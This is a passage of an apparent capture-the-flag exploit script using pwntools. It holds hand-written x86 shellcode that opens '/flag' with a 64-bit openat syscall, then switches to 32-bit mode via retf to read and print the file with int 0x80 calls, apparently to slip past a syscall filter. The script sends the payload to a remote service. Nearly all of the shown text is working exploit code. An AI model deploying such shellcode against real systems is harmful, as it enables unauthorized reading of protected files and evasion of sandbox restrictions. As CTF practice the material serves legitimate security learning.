 ```py
    /* push /flag */
    mov rax, 0x67616c662f
    push rax

    mov rsi, rsp

    mov rdi, -100 /* fd */

    /*mov rax, 257  openat */
    mov rax, 257/* openat */
    syscall

    jmp i386

ret386:
    pop rcx
    /* fix the stack to retf */
    mov dword ptr [rsp], ecx
    mov dword ptr [rsp+0x4], 0x23
    retf

i386:
    call ret386
'''

sc += asm(sc64, arch='amd64')

sc2 = '''
    /* memset the stack */
    mov edi, esp
    mov ecx, 0x40
    xor eax, eax
    rep stosb

  /* call read(3, 'esp', 0x40) */
    push (SYS_read) /* 3 */
    pop eax
    push 3
    pop ebx
    mov ecx, esp
    push 0x40
    pop edx
    int 0x80

    /* call write(1, 'esp', 0x40) */
    push (SYS_write) /* 4 */
    pop eax
    push 1
    pop ebx
    mov ecx, esp
    push 0x40
    pop edx
    int 0x80

 '''
sc += asm(sc2)

sc += '\xeb\xfe'

# sending the shellcode, written to the magic section and execute
r.send(sc + '\n')

# recv the flag
```